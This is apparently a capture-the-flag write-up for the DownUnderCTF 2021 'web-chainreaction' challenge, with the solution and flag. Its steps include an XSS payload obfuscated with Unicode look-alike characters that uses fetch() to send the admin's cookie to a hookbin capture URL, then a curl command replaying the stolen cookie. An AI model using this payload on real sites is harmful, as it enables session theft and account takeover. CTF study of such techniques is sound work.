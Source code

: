#### Challenge:

A bunch of university students want to start a company and hired some young university students. I wonder if they paid any attention to security. [web-chainreaction](https://web-chainreaction-a4b5ae3b.chal-2021.duc.tf/)

---

#### Solution:

- login screen reveals `dev` discussion regarding the issues that page has [devchat](https://web-chainreaction-a4b5ae3b.chal-2021.duc.tf/devchat) based on that we need to forge `XSS` with `unicode` characters
- for capturing of the admin cookie we will use [hookbin](https://hookbin.com/) service
  - 1. create new user `fixme`
  - 2. update its name to `﹤ˢcrⁱpt﹥fetch("https://hookb.in/lJlj19M1d9TJBNooBNpq?c="+document.cookie)﹤/ˢcrⁱpt﹥`
  - 3. report an error to admin
  - 4. check the `hookbin` service for admin cookie

```bash
curl https://web-chainreaction-a4b5ae3b.chal-2021.duc.tf/admin --cookie 'admin-cookie=sup3rs3cur34dm1nc00k13' | grep -i ductf
```

---

<details><summary>FLAG:</summary>

```
DUCTF{_un1c0de_bypass_x55_ftw!}
```

</details>
<br/>
